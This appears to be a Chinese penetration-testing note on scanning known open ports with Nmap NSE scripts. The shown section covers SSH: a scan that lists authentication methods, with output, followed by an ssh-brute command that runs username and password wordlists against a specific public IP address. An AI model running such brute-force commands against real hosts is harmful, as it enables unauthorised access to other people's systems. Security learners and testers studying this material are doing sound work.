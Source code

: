 ## 一、 当前状况
已经知道服务器开放端口，并且已知开放端口对应的服务。

## 二、 针对端口的操作
脚本列表&描述 ： https://nmap.org/nsedoc/scripts/

我们针对不同端口的不同问题使用针对该问题的脚本进行扫描。


### 2.1、 [22]-[ssh]

```
//查看 ssh 服务支持的认证方式

$ nmap -p 22 --script ssh-auth-methods 101.37.27.94

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-23 10:18 ?D1▒▒▒▒▒▒▒▒?▒▒▒▒??
Nmap scan report for 101.37.27.94
Host is up (0.053s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-auth-methods:
|   Supported authentication methods:
|     publickey
|     gssapi-keyex
|     gssapi-with-mic
|_    password

Nmap done: 1 IP address (1 host up) scanned in 16.13 seconds
```
```
//nmap 爆破 ssh(22) 端口
//注意命令执行路径 ，用户名、密码都在该路径下
T@T-PC MINGW64 /e/nmap/nselib/data
$ nmap -p 22 --script ssh-brute --script-args userdb=./usernames.lst,passdb=./passwords.lst -v 101.37.27.94
```
